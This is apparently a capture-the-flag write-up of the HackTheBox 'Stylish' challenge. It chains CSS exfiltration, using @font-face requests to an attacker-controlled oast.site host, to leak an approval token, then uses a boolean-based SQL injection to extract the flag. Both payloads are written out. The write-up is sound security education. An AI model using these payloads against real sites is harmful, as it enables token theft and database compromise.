

This is a writeup for the HTB challenge Stylish, a medium-difficulty level challenge focusing on CSS Exfiltration, let's not spoil the fun.

# Source Code

## Find the sink

It is my habit to start with the source code if we have one. Here, based on the file structure we can easily tell this is a NodeJS backend.

{:width="700" height="400"}
_Stylish File Structure_

Let's check the `package.json` file to get a basic idea on the dependencies:

```json
"dependencies": {
  "express": "^4.17.1",
  "nunjucks": "^3.2.0",
  "puppeteer": "^10.4.0",
  "sqlite-async": "1.1.2"
}
```

So nothing peculiar. It is running a sqlite database, with express as its framework, nunjucks to do some template, and puppeteer for a bot administrator.

Since our job is to capture the flag, when I do such challenges, I like to work backward. Instead of checking `index.js` and its routes, I will first do a `grep` on `flag` to check where `flag` is used and get a basic idea on how to retrieve it.

A basic `grep` shows us:

{:width="700" height="400"}
_Grep Result_

We can tell that flag is exclusively used in `database.js`, so let us jump to there:

```javascript
  async migrate() {
    const flagTable = "flag_" + crypto.randomBytes(4).toString("hex");

    return this.db.exec(`
            PRAGMA case_sensitive_like=ON;

            DROP TABLE IF EXISTS submissions;
            CREATE TABLE IF NOT EXISTS submissions (
                id          INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                css         TEXT NOT NULL,
                approved    BOOLEAN NOT NULL
            );

            DROP TABLE IF EXISTS comments;
            CREATE TABLE IF NOT EXISTS comments (
                id               INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                id_submission    INTEGER NOT NULL,
                content          TEXT NOT NULL
            );

            DROP TABLE IF EXISTS ${flagTable};
            CREATE TABLE IF NOT EXISTS ${flagTable} (
                flag          VARCHAR(255) NOT NULL
            );

            INSERT INTO ${flagTable} VALUES ('HTB{f4k3_fl4g_f0r_t3st1ng}');
        `);
  }
```

Ok, the roadmap is clearer now. Since flag is injected into a flagtable, the first idea come to my mind is SQLi. Scrolling down the code, I quickly spot a function that is vulnerable:

```javascript
  async getSubmissionComments(submissionID, pagination = 10) {
    return new Promise(async (resolve, reject) => {
      try {
        const stmt = `SELECT content FROM comments WHERE id_submission = ${submissionID} LIMIT ${pagination}`;
        resolve(await this.db.all(stmt));
      } catch (e) {
        reject(e);
      }
    });
  }
```

So here `submissionID` and `pagination` are not properly sanitized, but where is this function called? A simple `grep` shows that is called in two places:

```javascript
//First place
router.get("view/:id", (req, res) => {
	return db
			.getSubmission(req.params.id)
			.then((submission) => {
				if (...) { ... }
				else {
					return db.getSubmissionComments(submission.id).then(...)
				}
			})
			.catch(...)
})

//Second place
router.post("/api/comment/entries", async (req, res) => {
	const { submissionID, pagination } = req.body;
	if (submissionID && pagination) {
		return db
			.getSubmission(submissionID)
			.then((...) => {
				...
				return db
						.getSubmissionCOmments(submissionID, pagination)
						.then(...)
			})
			.catch(...)
	}
})
```

Out of the above two places only the second one is vulnerable since the first one only takes `submission.id` as its parameter, which we cannot control and must be a number.

Now we find the vulnerable sink, but how to get to this sink?

## Find the source

Tracing back the second route, we can roughly get what we need to do: <b>We need to submit something and get it approved</b>, and now is the ideal time to stop tracking backward and start play with the website to check what functoinality it offers and its logistics.

After some play around, we can tell that this website is rather simple. It has a simple frontend that takes a custom CSS as input to generate styles for your personal card. After submitting our CSS, the backend saves it into database and our bot administrator would check our CSS internally through localhost.



So the problem becomes that we need to submit our css, get it approved, and then use the comment route for SQLi.

But how to get our css approved?

The bot would launch the `/view/:submissionID` route, and this route simply get our `css` and render a `views/card_unapproved.html` for all unapproved `css` . In the target `html` file, however, we find something fishy:

```html
<div class="form-group">
  <p id="approvalToken" class="d-none">{{ approvalToken }}</p>
  <p id="rejectToken" class="d-none">{{ rejectToken }}</p>
  <a
    id="approveBtn"
    data-id="{{ submissionID }}"
    class="btn btn-primary"
    role="button"
    >Approve submission</a
  >
  <a
    id="rejectBtn"
    data-id="{{ submissionID }}"
    class="btn btn-danger"
    role="button"
    >Reject submission</a
  >
  <div id="responseMsg"></div>
</div>
```

Here we see that `approvalToken` is included in file right above the button to approve, and checking the corresponding JavaScript file shows us:

```javascript
await fetch("/approve/" + btn.data("id") + "/" + $("#approvalToken").text());
```

Basically, our css is approved through a simple fetch request to the `/approve/` route, concatenated with our css id and the `approvalToken`.

## Enters the CSS Exfiltration

CSS Exfiltration is an old technique, but rather effective, as many people assume that CSS can do no harm. After all, it's only styles, what can style do?

History has proven again that arrogance is the enemy to survival. Though CSS is only style, the powerful feature of CSS makes it a rather ideal method to exfiltrate data based on the content of the page. And this is made possible through conditional rendering.

Many times we want a css to apply based on the content we have. For example, if the input tag has value 1337, then we want a particular background, but when it is not, we want another:

```html
<input value=1337>
<style>
input[value="1337"]{
	--value: url(/collectData?value=1337);
}
input {
	background:var(--value, none);
}
```

Here we are saying, if the input has a value of 1337, we would set background to the image hosted on the target url, otherwise, the background would be none.

However, the target url is not an image. Rather, it is a site controlled by us, the attackers. So we can basically tell whether the page this css rendered has such an input based on whether we receive a request.

This attack has various variations and transforms, there are two good sources:

- [portswigger research](https://portswigger.net/research/blind-css-exfiltration)
- [hacktricks](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection)

Here, since we can control the css, we can then try to exfiltrate approvalToken, with which we can forge an approval request to get our css approved.

### Roadblocks

The first roadblock we have to clear is the `d-none` class, which is bootstrap's way to hide this tag. Once a tag is hidden, there are many things we cannot do, such as set its font and background image, which would significantly impede our exfiltration attempt. Fortunately, we can use the `!important` syntax in css to overwrite this `d-none` class:

```css
.d-none {
  display: block !important;
}
```

The second roadblock is `CSP`, which limit the destination of outgoing request.

```javascript
res.setHeader(
  "Content-Security-Policy",
  "default-src 'self'; object-src 'none'; img-src 'self'; style-src 'self'; font-src 'self' *;",
);
```

Here, most of the src are set to `self`, however, the font-src is mysterically set to `'self' *`, making it possible to fetch external font, giving us the way to use this an exploit of somewhat this variant:

```css
@font-face {
  font-family: poc;
  src: url(//copn6h31buqjd8eekdhg78x3pwoh5ukep.oast.site?CODE=A);
  unicode-range: U+0041;
}

.d-none {
  display: block !important;
}

#approvalToken {
  font-family: "poc";
}
```

Basically, all we need to do it to define a new `font-face` and link it to a server we control. The key is to set the unicode-range to a single character, and if our target, namely `#approvalToken` has this character in it, we would get notified. Then we just need to define `font-face` and enumerate all characters in order to know which characters we have in the `#approvalToken`. However, how about the order of the characters in the token?

No worries, this challenge sorted the `#approvalToken` after generation, so the final order will be based on ASCII, making it sufficient for us to only know whether a character exist or not.

### Chain

After getting the token, the next step is much simpler. This time we just include a single CSS exfiltration payload for a character we know that exist. The only difference is that we change the url to the approval route, and set the id and the `approvalToken` accordingly. So this time when it requests for the font, it will just approve our CSS.

### SQLi

This last step is rather easy. Since we got SQLi (and I am pretty bad at manually testing it), I just throw it to `sqlmap` and let it do its magic. After a while it returns that this database can be exploited using boolean-based injection. Basically, you just inject something like

```sql
2,(SELECT (CASE WHEN (1484=1484) THEN 1 ELSE 1/(SELECT 0) END))
```

This is the POC `sqlmap` gives me. So it checks whether a condition holds true or not, and if not, it will throw an error. We can easily adapt it to test the name of the flag table and the content in it using queries, which would finally give us the flag.

That's it. Happy Hacking!
